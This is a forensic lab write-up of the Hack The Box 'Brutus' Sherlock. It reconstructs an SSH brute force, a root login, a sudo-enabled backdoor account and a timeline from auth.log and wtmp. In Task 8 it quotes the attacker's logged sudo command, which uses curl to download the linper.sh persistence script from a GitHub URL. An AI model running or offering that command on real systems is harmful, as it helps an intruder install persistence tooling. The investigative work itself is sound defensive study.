---
tags:
  - sherlock
  - dfir
difficulty: Very Easy
status: Completed
date: 03:57 pm - August 06, 2026
---
# Brutus



## Background

### Scenario

> _In this Sherlock, you will familiarize yourself with Unix auth.log and wtmp logs. We'll explore a scenario where a Confluence server was brute-forced via its SSH service. After gaining access to the server, the attacker performed additional activities, which we can track using auth.log. Although auth.log is primarily used for brute-force analysis, we will delve into the full potential of this artifact in our investigation, including aspects of privilege escalation, persistence, and even some visibility into command execution._

## Analysis

### Data

First, I acknowledge i have 3 files in the just downloaded **evidence** folder.  


### SSH Brute Force

### Q & A

#### Task 1

Analyze the auth.log. What is the IP address used by the attacker to carry out a brute force attack?

The brute force attack is obvious, without using _grep_, it's clearly visible the repeated "Failed password" messages and its IP: **65.2.161.68**



#### Task 2

The bruteforce attempts were successful and attacker gained access to an account on the server. What is the username of the account?

Using _grep Accepted_, I can see it's root:



#### Task 3

Identify the UTC timestamp when the attacker logged in manually to the server and established a terminal session to carry out their objectives. The login time will be different than the authentication time, and can be found in the wtmp artifact.

Since the _utmpdump_ utility is not available anymore in the Ubuntu distro, which I'm currently using:  


I'll just use **last -f wtmp**:  


wtmp seems corrupted, so I try reading it with the third (actually the second file which is utmp.py) file running **`python3 utmp.py wtmp`**:  


At the end of the file, **the answer is clearly visible: 2024/03/06 07:32:45**. Now, because I'm in Spain and using the spanish timezone, when submitting the answer to HTB it wouldn't accept it even if subtracting the 2h current difference between CEST and UTC time. Then I learned that, because in march 6 in Spain we had only 1h difference with the UTC because of our Winter Time, I had to substract not 2h from the answer but only 1h, great discovery:



#### Task 4

SSH login sessions are tracked and assigned a session number upon login. What is the session number assigned to the attacker's session for the user account from Question 2?

When viewing the auth.log at the 06:31:40 timeframe, session 34 would seem the right answer:  


But because the attacker logins later once again to actually attack, then **the correct answer is 37**, as in the image below:  


#### Task 5

The attacker added a new user as part of their persistence strategy on the server and gave this new user account higher privileges. What is the name of this account?

Sure enough, the created account seems to be "cyberjunkie":  


Now I check for higher privileges, using a custom command:  


So yes, there's for sure been a couple of usermod usages, so just to confirm the account with higher privileges is actually cyberjunkie, I run a simple grep with the -E option so I can more quickly find the lines I'm interested in:  


Right now, it is pretty safe to say cyberjunkie was granted higher privileges. So **cyberjunkie is the answer.**

#### Task 6

What is the MITRE ATT&CK sub-technique ID used for persistence by creating a new account?

That will be **T1136.001**, as showed in the official webpage:



#### Task 7

What time did the attacker's first SSH session end according to auth.log?

Because I know the initial login was at 06:32:44, by greping for sshd it's pretty easy to find now when that session was closed, **06:37:24 is here the answer**:



#### Task 8

The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?

So by greping for cyberjunkie in the auth.log, the answers is found:  
_`/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh`_

## Incident Timeline

|Timestamp (UTC)|Event|Source|Notes|
|---|---|---|---|
|2024-03-06 06:18:01|First Entry|auth.log|First entry in auth.log|
|2024-03-06 06:31:33|SSH Brute Force Start|auth.log|SSH brute force start|
|2024-03-06 06:31:40|Root SSH Login Successful|auth.log|root SSH login successful|
|2024-03-06 06:31:42|SSH Brute Force Stop|auth.log|SSH brute force stop|
|2024-03-06 06:32:44|SSH Login as root|auth.log|SSH login as root|
|2024-03-06 06:32:45|Terminal Session Starts (root)|wtmp|Terminal session starts as root|
|2024-03-06 06:34:18|Cyberjunkie User & Group Created|auth.log|cyberjunkie user and group created|
|2024-03-06 06:35:15|Added to Sudo Group|auth.log|cyberjunkie added to sudo group|
|2024-03-06 06:37:24|Root Session Disconnects|auth.log|root session disconnects|
|2024-03-06 06:37:34|SSH Login as cyberjunkie|auth.log|SSH login as cyberjunkie|
|2024-03-06 06:37:35|Terminal Session Starts (cyberjunkie)|wtmp|Terminal session starts as cyberjunkie|
|2024-03-06 06:37:57|/etc/shadow Access|auth.log|cyberjunkie accesses /etc/shadow|
|2024-03-06 06:39:38|linper.sh Download|auth.log|cyberjunkie downloads linper.sh|
|2024-03-06 06:41:01|Last Entry|auth.log|Last entry in auth.log|

## Lessons Learned / Key Findings / Important to remember

- **Auth.log** provides visibility into authentication, privilege changes, and command execution

- **Wtmp** is essential for tracking terminal session start/end times, it usually has some second/s delay with the auth.log's respective events.

## Related Techniques

| Technique             | ID        |
| --------------------- | --------- |
| Brute Force           | T1110     |
| Valid Accounts (Root) | T1078     |
| Create Local Account  | T1136.001 |
| Privilege Escalation  | T1068     |
